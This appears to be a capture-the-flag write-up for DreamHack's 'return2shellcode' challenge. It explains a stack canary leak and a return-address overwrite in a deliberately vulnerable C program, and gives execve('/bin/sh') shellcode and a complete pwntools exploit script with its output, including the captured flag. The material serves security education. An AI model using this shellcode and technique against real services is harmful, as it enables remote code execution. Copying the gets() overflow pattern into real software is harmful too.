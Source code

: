 ### Overview
This challenge require knowledge about how shellcode work on stack.
And how to write assembly code to explooit and get RCE
Now, let's break it down

```
$ checksec r2s
[*] '/home/khanh/Documents/WorkSpaceDreamHack/PWN-dreamhack/return2shellcode/r2s'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```
Since Canary found and PIE enabled, we must know Canary address.

Let's take a look at main function:

```py
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

We can see that it is a common pwn challenge:
* One input used to leak address
* Second one used to override return address to shellcode
* Leak distance between buf and saved rbp is 96

And the key is they also leak buf address, it's also hint that we should do somethings with buf address

So let's check vmmap:
```
0x00007ffffffdd000 0x00007ffffffff000 0x0000000000000000 rwx [stack]
```
I saw that stack is executable, and the key point is that:
* we will use buf as shellcode to execute
* And override return address to buf

### Exploitation

Because we known that the distance between saved rbp and buf is 96 bytes, 
the distance between buf and Canary is 88 bytes

Let's use first input to leak Canary address:

``payload = b'A'*89``

it will leak address of Canary, store it and move to the next input
The final payload will be like this:

`` 88bytes buf + canary + 8bytes rbp + return address``

Our goal is override return address by buf address.
And modify `buf` as shell code when the program return back and it will execute shellcode for us.

Shellcode to execute ``execve('/bin/sh', 0, 0)``
```
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp  ; rdi = "/bin/sh\x00"
xor rsi, rsi  ; rsi = NULL
xor rdx, rdx  ; rdx = NULL
mov rax, 0x3b ; rax = sys_execve
syscall       ; execve("/bin/sh", null, null)
```

Assemble it to shellcode in hex, we will have the final script:
```py
from pwn import *
p = remote("host1.dreamhack.games", 23689)

payload = b'A'*89
p.recvuntil(b"buf: ")
buf = int(p.recvline().strip(), 16)
print(hex(buf))

shellcode = b'\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05'

p.sendafter("Input: ", payload)
p.recvuntil(payload)

canary = u64(b'\x00' + p.recv(7))
print(hex(canary))

payload2 = shellcode.ljust(88, b'A')  + p64(canary)*2 + p64(buf)
p.recvuntil(b'the return address')
p.sendafter(b"Input: ",payload2)
p.interactive()
```
### result
```
$ python3 exploit.py
[+] Opening connection to host1.dreamhack.games on port 23689: Done
0x7fff37018db0
/home/khanh/.local/lib/python3.12/site-packages/pwnlib/tubes/tube.py:831: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
0x67cb90869e8e6d00
[*] Switching to interactive mode
$ ls
$ ls
flag
r2s
$ cat flag
DH{333eb89c9d2615dd8942ece08c1d34d5}
$ 
[*] Interrupted
[*] Closed connection to host1.dreamhack.games port 23689
```


